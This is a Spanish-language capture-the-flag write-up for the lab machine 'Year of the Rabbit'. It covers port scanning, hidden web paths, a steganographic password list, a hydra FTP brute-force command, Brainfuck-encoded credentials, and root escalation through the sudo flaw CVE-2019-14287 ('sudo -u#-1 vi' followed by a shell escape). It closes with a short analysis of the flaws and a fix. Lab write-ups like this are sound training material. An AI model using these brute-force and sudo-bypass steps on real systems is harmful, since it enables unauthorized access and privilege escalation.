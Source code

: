 # Year of the Rabbit
Es bastante CTF pero a pesar de lo CTF que es, la máquina es interesante
Interesantes: CVE-2019-14287
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```
## Enum
### HTTP
#### Gobuster
```
/assets (Status: 301) <- Aqui dentro hay un rickrrolled.mp4 :v y un css
```
#### El CSS es una trampa
```
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
```
#### sup3r_s3cr3t_fl4g
Si tenemos el js habilitado nos redirige a el video de Rick Roll, veamos que ocurre examinando la peticion en burpsuite
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
Host: 10.10.211.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Veamos que ese directorio hay una foto, la descargamos y miramos si se ha aplicado algún tipo de esteganografía a la misma, vemos que se ha añadido algo al final
```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
```
Seguido de esto hay una serie de strings que parece ser una wordlist.

## Exploit
```
hydra -l ftpuser -P pass.txt ftp://10.10.211.47
```
Y obtenemos la siguiente
```
[21][ftp] host: 10.10.211.47   login: ftpuser   password: 5iez1wGXKfPKQ
```
Una vez dentro tenemos el siguiente archivo:

```
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
```
### Eli
Las creds para elli resultan se un string en Brainfuck
```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
Lo decodificamos y tenemos lo siguiente
```
User: eli

Password: DSpDiM1wAEwid
```
Cuando nos logeuamos tenemos el siguiente mensaje
```
Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there
```
Una busqueda con el comando find como la siguiente nos revelara un lugar escondido
```
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```
Dentro hay un mensaje para gwendoline
```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
Con esto podemos logearnos como gwendoline

## Privesc
```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
Este privesc es sencillo ya que la version de sudo esta afectada por el CVE-2019-14287
```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
> :!/bin/bash
```
Y ya tenemos shell como root

# Analisís de la intrusión
### Sensible data leak
Las credenciales se han visto expuestas por malas decisiones y debiles metodos criptograficos
### CVE-2019-14287
Este CVE permite abusar de la ejecución de archivos con la siguiente restrincion:
```
(ALL, !root)
```
Para ejecutar el comando como root mediante el uso de uid -1  o 4294967295
# Solucion
### CVE-2019-14287
Para remediar este fallo la mejor opción es updatear a una versión más reciente de sudo, donde la vuln haya sido corregida

